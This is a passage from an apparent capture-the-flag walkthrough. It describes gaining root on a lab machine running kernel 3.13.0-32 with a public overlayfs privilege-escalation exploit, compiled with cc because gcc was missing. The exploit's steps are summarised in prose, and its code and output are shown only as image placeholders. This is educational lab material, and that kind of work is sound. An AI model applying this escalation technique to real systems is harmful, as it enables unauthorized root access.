

Immediately, the OS version (**3.13.0-32-generic**) of the machine was flagged out as a privesc vector.

Doing some research online, I came across an existing [exploit](https://www.exploit-db.com/exploits/37292) that allows us to escalate our privileges.

---

**How the exploit works:**

* *Create new user and mount namespace using clone with CLONE_NEWUSER|CLONE_NEWNS flags.*
* *Mount an overlayfs using /bin as lower filesystem, some temporary directories as upper and work directory.*
* *Overlayfs mount would only be visible within user namespace, so let namespace process change CWD to overlayfs, thus making the overlayfs also visible outside the namespace via the proc filesystem.*
* *Make su on overlayfs world writable without changing the owner*
* *Let process outside user namespace write*
* *arbitrary content to the file applying a slightly modified variant of the SetgidDirectoryPrivilegeEscalation exploit.*
* *Execute the modified su binary*

---

There was one issue though... The exploit is a C script, but the machine does not have `gcc` installed.



Fortunately, it does have `cc`, which is able to compile C code as well. Hence, in order for the exploit to work on the target machine, we have to change all instances of 'gcc' in the exploit to 'cc'.



Once that was done, I transferred the exploit over to the target machine, compiled it with `cc` to a file called **ofs**, and ran it:



And we are now root!

The root flag can be found in the **/root** directory. Note that it was a hidden file.



---

### [ Bonus End Directory ]

Visiting **/006-final/xvf7-flag/** brings us to the following page:


